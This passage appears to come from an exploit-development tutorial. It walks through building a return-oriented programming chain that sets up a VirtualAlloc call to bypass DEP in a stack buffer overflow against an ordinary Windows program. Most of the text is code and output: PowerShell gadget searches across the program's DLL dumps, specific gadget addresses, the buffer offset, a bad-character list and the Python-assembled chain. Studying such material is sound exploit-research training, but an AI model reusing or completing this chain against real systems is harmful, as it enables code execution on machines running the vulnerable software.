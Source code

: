 2. `POP` the `-0x1C` into `ECX`
    
    ```python
    
    gci .\ROPS  -File -Recurse -EA SilentlyContinue | Select-String -Pattern "(pop e[a-z][a-z]).*?((retn  ;)|(ret  ;))"
    ....
    ROPS\ropssnfs.txt:14441:0x10021dbf: pop ecx ; ret  ;  (1 found)
    ROPS\ropssnfs.txt:14442:0x10021db3: pop ecx ; ret  ;  (1 found)
    ROPS\ropssnfs.txt:14443:0x10022547: pop ecx ; ret  ;  (1 found)
    ROPS\ropssnfs.txt:14444:0x10022a64: pop ecx ; ret  ;  (1 found)
    ....
    rop += pack("<L", (0x10022a64)) # pop ecx ; ret  ;
    rop += pack("<L", (0xffffffe4)) # -0x1C
    ```
    
3. Add`ECX` to `EAX`
    
    ```python
    gci .\ROPS  -File -Recurse -EA SilentlyContinue | Select-String -Pattern "(add eax, ecx).*?((retn  ;)|(ret  ;))"
    ....
    ROPS\CSNCDAV6.DLL.txt:1494:0x50217e03: add eax, ecx ; pop esi ; pop edi ; pop ebx ; leave  ; ret  ;  (1 found)
    ROPS\ropssnfs.txt:4378:0x10024108: add eax, ecx ; pop edi ; pop esi ; pop ebx ; leave  ; ret  ;  (1 found)
    ROPS\ropssnfs.txt:4379:0x10012ef4: add eax, ecx ; pop esi ; ret  ;  (1 found)
    ROPS\ropssnfs.txt:4433:0x10012ef2: add ecx, edx ; add eax, ecx ; pop esi ; ret  ;  (1 found)
    ROPS\ropssnfs.txt:7653:0x10012eed: dec ecx ; or byte [ebx-0x35FCF1F4], cl ; add eax, ecx ; pop esi ; ret  ;  (1 found)
    ROPS\ropssnfs.txt:11935:0x10012eec: mov ecx, dword [ecx+0x08] ; mov ecx, dword [esi+ecx] ; add ecx, edx ; add eax, ecx ; pop esi ; ret  ;  (1 found)
    ROPS\ropssnfs.txt:11942:0x10012eef: mov ecx, dword [esi+ecx] ; add ecx, edx ; add eax, ecx ; pop esi ; ret  ;  (1 found)
    ROPS\ropssnfs.txt:12580:0x10012ef0: or al, 0x0E ; add ecx, edx ; add eax, ecx ; pop esi ; ret  ;  (1 found)
    ....
    rop += pack("<L", (0x10012ef4)) # add eax, ecx ; pop esi ; ret  ;
    rop += pack("<L", (0x42424242)) # pop esi
    ```
    

Effectively our ROP chain will now look as follows:

```python
va  = pack("<L", (0x45454545)) # VirutalAlloc Address
va += pack("<L", (0x46464646)) # Return Address (Shellcode on stack)
va += pack("<L", (0x47474747)) # lpAddress (Shellcode on stack)
va += pack("<L", (0x48484848)) # dwSize 
va += pack("<L", (0x49494949)) # flAllocationType 
va += pack("<L", (0x51515151)) # flProtect

offset = b"A" * (276 - len(va))
eip = pack("<L", (0x100113dd)) # push esp ; sub eax, 0x20 ; pop ebx ; ret  ;

#bad chars:  0x00, 0x09, 0x0A, 0x0B, 0x0C, 0x0D, 0x20
rop = pack("<L", (0x10012394)) # mov eax, ebx ; pop esi ; pop ebx ; ret  ;  (1 found)
rop += pack("<L", (0x42424242)) # pop esi
rop += pack("<L", (0x42424242)) # pop ebx 

rop += pack("<L", (0x10022a64)) # pop ecx ; ret  ;
rop += pack("<L", (0xffffffe4)) # -0x1C
rop += pack("<L", (0x10012ef4)) # add eax, ecx ; pop esi ; ret  ;
rop += pack("<L", (0x42424242)) # pop esi

rop += b"C" * (0x400 - 276 - 4 - len(rop))
```
